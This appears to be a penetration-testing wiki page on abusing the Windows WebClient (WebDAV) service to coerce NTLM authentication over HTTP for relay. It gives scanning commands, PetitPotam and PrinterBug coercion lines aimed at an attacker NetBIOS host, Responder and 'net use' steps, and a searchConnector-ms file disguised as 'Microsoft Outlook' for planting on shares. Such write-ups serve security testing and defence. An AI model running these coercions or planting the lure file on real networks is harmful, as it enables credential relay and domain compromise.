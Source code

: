 # WebClient abuse (WebDAV)

## Theory

> Web Distributed Authoring and Versioning (WebDAV) is an extension to Hypertext Transfer Protocol (HTTP) that defines how basic file functions such as copy, move, delete, and create are performed by using HTTP ([docs.microsoft.com](https://docs.microsoft.com/en-us/windows/win32/webdav/webdav-portal))

The WebClient service needs to be enabled for WebDAV-based programs and features to work. As it turns out, the WebClient service can be indirectly abused by attackers to coerce authentications. This technique needs to be combined with other coercion techniques (e.g. [PetitPotam](ms-efsr.md), [PrinterBug](ms-rprn.md)) to act as a booster for these techniques. **It allows attackers to elicit authentications made over HTTP instead of SMB**, hence heightening [NTLM relay](../ntlm/relay.md) capabilities.

## Practice

### Recon

Attackers can remotely enumerate systems on which the WebClient is running, which is not uncommon in organizations that use OneDrive or SharePoint or when mounting drives with a WebDAV connection string.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this can be achieved with [webclientservicescanner](https://github.com/Hackndo/WebclientServiceScanner) (Python) or using [NetExec](https://github.com/Pennyw0rth/NetExec) (Python).

```bash
webclientservicescanner 'domain.local'/'user':'password'@'machine'
netexec smb 'TARGETS' -d 'domain' -u 'user' -p 'password' -M webdav
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, this can be achived with [GetWebDAVStatus](https://github.com/G0ldenGunSec/GetWebDAVStatus) (C, C#)

```bash
GetWebDAVStatus.exe 'machine'
```
{% endtab %}
{% endtabs %}

### Abuse

Regular coercion techniques rely on the attacker forcing a remote system to authenticate to another one. The "other" system is usually an IP address, a domain or NetBIOS name. With WebClient abuse, the other system needs to be supplied in a WebDAV Connection String format.

The WebDAV Connection String format is: `\\SERVER@PORT\PATH\TO\DIR`.

{% hint style="info" %}
To retrieve an authenticated connection, the remote server that attacker wants to victim to be relayed to [should be considered in the intranet zone](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#getting-intranet-zoned). One way to do it is to use the NetBIOS or DNS name of the attacker machine instead of its IP address.

In order to have a valid NetBIOS name, [Responder](https://github.com/lgandx/Responder) can be used.

A heftier alternative is to do some [ADIDNS poisoning](adidns-spoofing.md) to create and use a valid DNS entry.
{% endhint %}

Below are a few examples of WebClient abuse with [PrinterBug](../print-spooler-service/printerbug.md) and [PetitPotam](ms-efsr.md).

```bash
# PrinterBug
dementor.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
SpoolSample.exe "VICTIM_IP" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt"

# PetitPotam
Petitpotam.py "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
Petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
PetitPotam.exe "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
```

### Start the WebClient service

On a side note, making a remote system start the WebClient service can be done in many ways

{% tabs %}
{% tab title="Map a WebDAV server" %}
By mapping a remote WebDAV server. This can be done by having Responder's server up and by running the `net use` cmdlet.

```shell
# starting responder (in analyze mode to prevent poisoning)
responder --interface "eth0" --analyze
responder -I "eth0" -A

# map the drive from the target WebClient needs to be started on
net use x: http://$RESPONDER_IP/
```
{% endtab %}

{% tab title="searchConnector-ms" %}
With a [searchConnector-ms](https://docs.microsoft.com/en-us/windows/win32/search/search-sconn-desc-schema-entry) file uploaded to widely used share within the organisation. Each time a user browses the folder, the WebClient service will start transparently.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>https://whatever/</url>
    </simpleLocation>
</searchConnectorDescription>
```
{% endtab %}

{% tab title="Explorer" %}
By opening an interactive session with the target (e.g. RDP), opening the Explorer, and type something in the address bar.
{% endtab %}

{% tab title="Start WebClient Programmatically (with non-admin privileges)" %}
The WebClient service on Windows 7+ can also be started programmatically as shown in [tiraniddo's research in this blog post](https://www.tiraniddo.dev/2015/03/starting-webclient-service.html). The whole idea behind the research is that the WebClient service is registered with a service trigger. This provides an avenue for automatically starting the service in response to a specific system event, even with non-admin privileges. There are 3 publicly available tools to do that:
1. [SharpStartWebclient](https://github.com/eversinc33/SharpStartWebclient)
2. [BOF](https://github.com/outflanknl/C2-Tool-Collection/blob/main/BOF/StartWebClient/SOURCE/StartWebClient.c)
3. [EtwStartWebClient.cs](https://gist.github.com/klezVirus/af004842a73779e1d03d47e041115797) (which can easily be compiled in both Windows and Linux systems in case Visual Studio is not available at the moment)
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://pentestlab.blog/2021/10/20/lateral-movement-webclient" %}

{% embed url="https://www.webdavsystem.com/server/access/windows" %}

